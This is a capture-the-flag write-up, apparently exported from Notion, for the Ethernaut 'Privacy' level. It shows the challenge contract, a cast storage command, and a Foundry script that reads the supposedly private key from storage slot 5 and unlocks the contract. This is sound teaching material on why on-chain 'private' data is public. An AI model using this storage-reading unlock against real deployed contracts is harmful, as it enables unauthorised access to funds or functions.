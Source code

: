 ```yaml
---
title: "Privacy"
date: "2024-02-10"
lastmod: "2024-02-14T16:51:00.000Z"
draft: false
difficulty: "⭐⭐⭐"
prev: "Elevator-59c41c694afa45c68e603000da840a2e"
weight: 13
state: "En cours"
level-url: "https://ethernaut.openzeppelin.com/level/12"
next: "Gatekeeper-One-9bbda6efa6c24367aa643eb73ae92a6a"
type: "docs"
NOTION_METADATA:
  object: "page"
  id: "0141c599-3182-4d74-a831-1099eb338d5d"
  created_time: "2024-02-12T13:39:00.000Z"
  last_edited_time: "2024-02-14T16:51:00.000Z"
  created_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  last_edited_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  cover: null
  icon:
    type: "external"
    external:
      url: "https://ethernaut.openzeppelin.com/imgs/BigLevel12.svg"
  parent:
    type: "database_id"
    database_id: "cb6853ff-d731-4d6a-9080-6c8efeec5b1c"
  archived: false
  properties:
    difficulty:
      id: "IAjo"
      type: "select"
      select:
        id: "aa1cb61f-428e-4dc4-abad-06b3092cb0ce"
        name: "⭐⭐⭐"
        color: "green"
    prev:
      id: "LLP%5C"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "Elevator-59c41c694afa45c68e603000da840a2e"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Elevator-59c41c694afa45c68e603000da840a2e"
          href: null
    date:
      id: "Y%40Gy"
      type: "date"
      date:
        start: "2024-02-10"
        end: null
        time_zone: null
    weight:
      id: "%5Dyda"
      type: "number"
      number: 13
    state:
      id: "f%40ps"
      type: "status"
      status:
        id: "e1f6ef4b-49ae-427f-9bb4-8736089f3aa2"
        name: "En cours"
        color: "blue"
    level-url:
      id: "juZs"
      type: "url"
      url: "https://ethernaut.openzeppelin.com/level/12"
    next:
      id: "pocA"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "Gatekeeper-One-9bbda6efa6c24367aa643eb73ae92a6a"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Gatekeeper-One-9bbda6efa6c24367aa643eb73ae92a6a"
          href: null
    type:
      id: "s%7DKc"
      type: "select"
      select:
        id: "OnJy"
        name: "docs"
        color: "default"
    title:
      id: "title"
      type: "title"
      title:
        - type: "text"
          text:
            content: "Privacy"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Privacy"
          href: null
  url: "https://www.notion.so/Privacy-0141c59931824d74a8311099eb338d5d"
  public_url: null
UPDATE_TIME: "2024-02-14T17:11:21.627Z"

---
```

<link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/katex@0.16.2/dist/katex.min.css" integrity="sha384-bYdxxUwYipFNohQlHt0bjN/LCpueqWz13HufFEV1SUatKs1cm4L6fFgCi1jT643X" crossorigin="anonymous">


title: Privacy
weight: 13
type: docs
prev: elevator
next: gatekeeper-one


[Level12](https://ethernaut.openzeppelin.com/level/12) - ⭐⭐⭐


---


The creator of this contract was careful enough to protect the sensitive areas of its storage.


Unlock this contract to beat the level.


Things that might help:

- Understanding how storage works
- Understanding how parameter parsing works
- Understanding how casting works

Tips:

- Remember that metamask is just a commodity. Use another tool if it
is presenting problems. Advanced gameplay could involve using remix, or
your own web3 provider.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Privacy {

  bool public locked = true; // slot 0
  uint256 public ID = block.timestamp; // slot 1
  uint8 private flattening = 10; // slot 2
  uint8 private denomination = 255; // slot 2
  uint16 private awkwardness = uint16(block.timestamp); // slot 2
  bytes32[3] private data; // [slot3, slot4, slot5]

  constructor(bytes32[3] memory _data) {
    data = _data;
  }
  
  function unlock(bytes16 _key) public {
    require(_key == bytes16(data[2]));
    locked = false;
  }

  /*
    A bunch of super advanced solidity algorithms...

      ,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`
      .,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,
      *.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^         ,---/V\
      `*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.    ~|__(o.o)
      ^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'  UU  UU
  */
}
```


for more details on storage layout read this article:


[bookmark](https://docs.alchemy.com/docs/smart-contract-storage-layout)


So, the `_key` is stored at slot 5 since it is `data[2]`:


```solidity
➜  ~/repos/ethernaut (main) cast storage --rpc-url $SEPOLIA_RPC_URL $INSTANCE_12 5
0xe32410e9fbc1f17b0f1d9a6ed141317f11c4b2a5d38981dfa025aacf8b708d7d
```


Solution:


```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Script.sol";
import "forge-std/console.sol";

import {Privacy} from "../src/12.sol";


contract POC is Script {
    function run() external {
        uint256 deployerPrivateKey = vm.envUint("PRIVATE_KEY");
        address addr = vm.envAddress("INSTANCE_12");

        vm.startBroadcast(deployerPrivateKey);

        Privacy privacy = Privacy(addr);
        console.log('isLocked : %s', privacy.locked());
				
				// vm.load() allows us to read arbitrary storage slot
        bytes16 key = bytes16(vm.load(address(privacy), bytes32(uint(5))));
        privacy.unlock(key);
        
        console.log('isLocked : %s', privacy.locked());

        vm.stopBroadcast();

    }
}
```


Nothing
 in the ethereum blockchain is private. The keyword private is merely an
 artificial construct of the Solidity language. Web3's `getStorageAt(...)`
 can be used to read anything from storage. It can be tricky to read 
what you want though, since several optimization rules and techniques 
are used to compact the storage as much as possible.


It can't get much more complicated than what was exposed in this level. For more, check out this excellent article by "Darius": [How to read Ethereum contract storage](https://medium.com/aigang-network/how-to-read-ethereum-contract-storage-44252c8af925)


More info:


[bookmark](https://medium.com/@0xZorz/how-to-read-dynamic-arrays-directly-from-storage-using-foundry-bdf5a104b8f6)

